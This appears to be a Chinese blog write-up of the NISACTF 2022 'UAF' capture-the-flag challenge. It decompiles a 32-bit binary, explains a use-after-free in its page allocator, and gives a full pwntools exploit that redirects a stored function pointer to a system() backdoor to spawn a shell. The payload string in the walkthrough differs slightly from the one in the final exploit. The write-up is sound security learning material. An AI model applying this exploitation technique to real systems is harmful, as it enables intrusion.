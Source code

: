 ```yaml
---
title: '[NISACTF 2022]UAF'
date: 2024-04-28 13:00:00 +0800
categories: [uaf]
tags: [ctf,pwn]
---
```

# [[NISACTF 2022]](https://www.nssctf.cn/problem/2161)UAF

```shell
pwn: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=85bd87e16a35c0c05064a1a0938f6115b8b3b2be, not stripped
```

> $ file pwn

```shell
[*] '/home/bamuwe/NISACTF_2022_UAF/pwn'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

> $ checksec pwn

```c
int create()
{
  int result; // eax
  int v1; // ebx
  char *v2; // eax

  printf("you are creating the %d page\n", i);
  result = i;
  if ( i >= 0 )
  {
    result = i;
    if ( i <= 9 )
    {
      v1 = i;
      (&page)[v1] = malloc(8u);
      if ( i )									// 判断点
      {
        if ( i <= 0 || i > 9 )
        {
          return puts("NO PAGE");
        }
        else
        {
          puts("Good cretation!");
          return ++i;
        }
      }
      else
      {
        v2 = page;
        *page = 'oaig';                         // giao
        v2[4] = 0;
        *(page + 1) = echo;						// 在堆中存贮了echo()的地址
        puts("The init page");
        return ++i;
      }
    }
  }
  return result;
}
```

> create()函数

```c
int __cdecl NICO(char *command)
{
  return system(command);
}
```

> 后门函数NICO()

```c
unsigned int del()
{
  int v1; // [esp+8h] [ebp-10h] BYREF
  unsigned int v2; // [esp+Ch] [ebp-Ch]

  v2 = __readgsdword(0x14u);
  puts("Input page");
  __isoc99_scanf("%d", &v1);
  if ( v1 < 0 || v1 > i )
    puts("NO PAGE");
  else
    free((&page)[v1]);
  return __readgsdword(0x14u) ^ v2;
}											// 没有清空指针
```

> del()函数

```c
unsigned int show()
{
  int v1; // [esp+8h] [ebp-10h] BYREF
  unsigned int v2; // [esp+Ch] [ebp-Ch]

  v2 = __readgsdword(0x14u);
  puts("Input page");
  __isoc99_scanf("%d", &v1);
  if ( v1 )                                     // v1=0
  {
    if ( v1 <= 0 || v1 > i )
      puts("NO PAGE");
    else
      echo((&page)[v1]);
  }
  else
  {
    (*(page + 1))(page);                        // 利用点
  }
  return __readgsdword(0x14u) ^ v2;
}
```

> show()函数

交互函数：

```python
def add():
    io.sendlineafter(b':',b'1')
    
def edit(idx,text):
    io.sendlineafter(b':',b'2')
    io.sendlineafter(b'page\n',str(idx))
    io.sendlineafter(b'strings\n',text)

def free(idx):
    io.sendlineafter(b':',b'3')
    io.sendlineafter(b'page\n',str(idx))

def show(idx):
    io.sendlineafter(b':',b'4')
    io.sendlineafter(b'page\n',str(idx))
```

程序逻辑：

1. `add()`堆块的时候，如果创建的是第一块`chunk0`则往`chunk0+1`的位置写入`echo()`的地址
2. del()并没有删除指针
3. `show()`执行时，如果是`chunk1-9`非零`chunk`，则`echo((&page)[v1]);`，如果是`chunk0`，则`(*(page + 1))(page); `，正常情况下是执行`echo(page)`

利用思路：

1. 程序存在`UAF`，所以可以先申请`chunk0`然后释放再申请，就可以获得两个指针`*chunk0,*chun1`都指向同一块内存区域

   ```python
   add()   #0
   free(0)
   add()   #1
   ```

   ![image-20240428204547865](../assets/img/old_imgs/image-20240428204547865.png)

   重新申请的时候由于`i`的值没有重置`（i=1）`，所以不会重新向`chunk`中写入`echo`的地址，我们也可以发现，此时`show(0)`是失效的

   ![image-20240428204716350](../assets/img/old_imgs/image-20240428204716350.png)

2. 只有在`chunk0`上才能执行我们的利用点

![image-20240428203145487](../assets/img/old_imgs/image-20240428203145487.png)

3. 我们通过`*chunk1`修改`chunk0/1`上的内容为`sh\x00\x00`,我们要考虑栈平衡填充，同时修改`page+1`为后门函数地址，构造`NICO(sh)`

   ```python
   edit(1,b'/sh\x00'+p32(0x8048642))
   show(0)
   ```

___

exp:

```python
from pwn import *
io = gdb.debug('./pwn')

def add():
    io.sendlineafter(b':',b'1')
    
def edit(idx,text):
    io.sendlineafter(b':',b'2')
    io.sendlineafter(b'page\n',str(idx))
    io.sendlineafter(b'strings\n',text)

def free(idx):
    io.sendlineafter(b':',b'3')
    io.sendlineafter(b'page\n',str(idx))

def show(idx):
    io.sendlineafter(b':',b'4')
    io.sendlineafter(b'page\n',str(idx))
    
add()   #chunk0
free(0)
add()   #chunk1
edit(1,b'sh\x00\x00'+p32(0x8048642))
show(0)

io.interactive()
```

